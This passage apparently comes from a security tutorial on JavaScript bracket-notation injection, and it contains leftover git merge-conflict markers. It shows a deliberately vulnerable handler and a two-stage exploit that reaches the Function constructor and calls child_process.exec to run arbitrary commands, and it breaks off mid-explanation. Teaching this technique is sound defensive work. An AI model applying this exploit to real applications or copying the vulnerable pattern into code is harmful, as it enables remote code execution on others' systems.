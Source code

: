 <<<<<<< HEAD
### Issue #3: Bracket object notation with user input grants access to every property available on the object, including prototypes, **_which can lead to Remote Code Execution._**
=======
## Issue #3: Bracket object notation with user input grants access to every property available on the object, including prototypes, **_which can lead to Remote Code Execution._**
>>>>>>> e66b3631... init-tmn

Now here's where things get really dangerous. It's also where example code gets really implausible - bear with me.

```js
var user = function () {
  this.name = 'jon';
  //An empty user constructor.
};

function handler(userInput) {
  var anyVal = 'anyVal'; // This can be any attribute, and does not need to be user controlled.
  user[anyVal] = user[userInput[0]](userInput[1]);
}
```

In the previous section, I mentioned that constructor can be accessed from square brackets. In this case, since we are dealing with a function, the constructor we get back is the `Function` Constructor, which compiles a string of code into a function.

<<<<<<< HEAD
### Exploitation:
=======
## Exploitation
>>>>>>> e66b3631... init-tmn

In order to exploit the above code, we need a two stage exploit function.

```js
function exploit(cmd) {
  var userInputStageOne = ['constructor', 'require("child_process").exec(arguments[0],console.log)'];
  var userInputStageTwo = ['anyVal', cmd];

  handler(userInputStageOne);
  handler(userInputStageTwo);
}
```

Let's break it down.

The first time handler is run, it looks something like this:
